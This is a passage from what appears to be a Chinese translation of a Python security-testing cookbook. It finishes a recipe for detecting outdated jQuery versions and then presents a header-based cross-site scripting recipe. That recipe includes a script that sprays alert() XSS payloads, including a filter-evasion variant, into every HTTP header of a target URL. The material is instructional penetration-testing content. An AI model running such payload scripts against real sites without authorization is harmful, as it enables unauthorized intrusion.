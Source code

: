 对于每个已识别的脚本，我们随后检查是否有提及`jquery.min`，这将表明核心 jQuery 文件：

```py
for script in scripts:
  if "jquery.min" in str(script).lower():
```

然后，我们使用正则表达式来标识版本号。在 jQuery 文件中，这将是第一个适合给定正则表达式的内容。正则表达式查找`0-9`或`a-z`，后跟一个重复无数次的周期。这是大多数版本号采用的格式，jQuery 也不例外：

```py
versions = re.findall(r'\d[0-9a-zA-Z._:-]+',url.text)
```

`re.findall`方法查找与此正则表达式匹配的所有字符串；然而，正如前面提到的，我们只想要第一个。我们用注释`[0]`来标识它。我们检查这是否等于编写本文时当前 jQuery 版本的硬编码值。这些将需要手动更新。如果该值等于当前版本中的任何一个，脚本将声明该值为最新版本，或者，如果该值不等于当前版本，脚本将打印检测到的版本以及过期消息：

```py
if versions[0] == "2.1.1" or versions[0] == "1.12.1":
      print "Up to date"
    else:
      print "Out of date"
      print "Version detected: "+versions[0]
```

## 还有更多…

这个方法显然是可扩展的，只需添加检测字符串和版本，就可以应用于任何 JavaScript 库。

如果要扩展字符串以包含其他库，例如不安全的 Django 或 flask 库，则必须修改脚本以处理声明它们的替代方式，因为它们显然没有声明为 JavaScript 库。

# 基于头的跨站点脚本

到目前为止，我们一直专注于通过 URL 和参数发送有效负载，这是执行攻击的两种明显方法。然而，有许多丰富而肥沃的脆弱性来源往往未被触及。其中一个将在[第 6 章](6.html "Chapter 6. Image Analysis and Manipulation")、*图像分析与处理*中进行深入介绍，我们现在可以对其进行介绍。日志通常保存访问网页的用户的特定标题。通过在头中执行 XSS 攻击来检查这些日志可能是一项值得的活动。

我们将创建一个脚本，该脚本将 XSS 攻击字符串提交到所有可用的头，并通过几个可能的 XSS 攻击循环。我们将提供一个有效负载的简短列表，抓取所有的标题，并按顺序提交它们。

## 准备好了吗

确定要测试的 URL。请参见本例末尾的 PHP 网页，该网页可以使用脚本来测试脚本的有效性。

## 怎么做…

确定目标网页后，将其作为命令行参数传递给脚本。您的脚本应与以下脚本中所示的相同：

```py
import requests
import sys
url = sys.argv[1]
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY  ONLOAD=alert(1)>']
headers ={}
r = requests.head(url)
for payload in payloads:
  for header in r.headers:
    headers[header] = payload
  req = requests.post(url, headers=headers)
```
